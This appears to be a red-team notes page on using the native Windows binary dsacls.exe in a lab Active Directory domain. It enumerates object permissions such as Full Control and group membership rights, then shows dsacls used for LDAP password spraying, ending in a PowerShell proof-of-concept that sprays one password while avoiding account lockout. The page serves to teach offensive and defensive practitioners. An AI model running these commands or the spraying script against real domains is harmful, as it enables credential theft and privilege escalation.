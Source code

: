 ```yaml
---
layout: post
title: "2024-06-18-using dsacls to check ad object permissions"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /using-dsacls-to-check-ad-object-permissions/
---
```


---
description: Enumeration, living off the land
---

# Enumerating AD Object Permissions with dsacls

It is possible to use a native windows binary (in addition to powershell cmdlet `Get-Acl`) to enumerate Active Directory object security persmissions. The binary of interest is `dsacls.exe`.

Dsacls allows us to display or modify permissions (ACLS) of an Active Directory Domain Services (AD DS).

## Execution

Let's check if user `spot` has any special permissions against user's `spotless` AD object:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode %}

Nothing useful:

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-46-47.png>)

Let's give user spot `Reset Password` and `Change Password` permissions on `spotless` AD object:

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-46-04.png>)

...and try the command again:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-44-21.png>)

### Full Control

All well known (and abusable) AD object permissions should be sought here. One of them is `FULL CONTROL`:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "full control"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-54-36.png>)

### Add/Remove self as member

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" | select-string "spotless"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-19 22-57-50.png>)

### WriteProperty/ChangeOwnerShip

![](<../../.gitbook/assets/Screenshot from 2019-03-19 23-00-04.png>)

Enumerating AD object permissions this way does not come in a nice format that can be piped between powershell cmd-lets, but it's still something to keep in mind if you do not the ability to use tools like powerview or ActiveDirectory powershell cmdlets or if you are trying to `LOL`.

For more good privileges to be abused:

{% content-ref url="privileged-accounts-and-token-privileges.md" %}
[privileged-accounts-and-token-privileges.md](privileged-accounts-and-token-privileges.md)
{% endcontent-ref %}

{% content-ref url="abusing-active-directory-acls-aces.md" %}
[abusing-active-directory-acls-aces.md](abusing-active-directory-acls-aces.md)
{% endcontent-ref %}

## Password Spraying Anyone?

As a side note, the `dsacls` binary could be used to do LDAP password spraying as it allows us to bind to an LDAP session with a specified username and password:

{% code title="incorrect logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:1234567
```
{% endcode %}

![Logon Failure](<../../.gitbook/assets/Screenshot from 2019-03-19 23-09-12.png>)

{% code title="correct logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:123456
```
{% endcode %}

![Logon Successful](<../../.gitbook/assets/Screenshot from 2019-03-19 23-09-59.png>)

### Dirty POC idea for Password Spraying:

{% code title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 00-10-10.png>)

## References

{% embed url="https://support.microsoft.com/en-gb/help/281146/how-to-use-dsacls-exe-in-windows-server-2003-and-windows-2000" %}

@spotheplanet
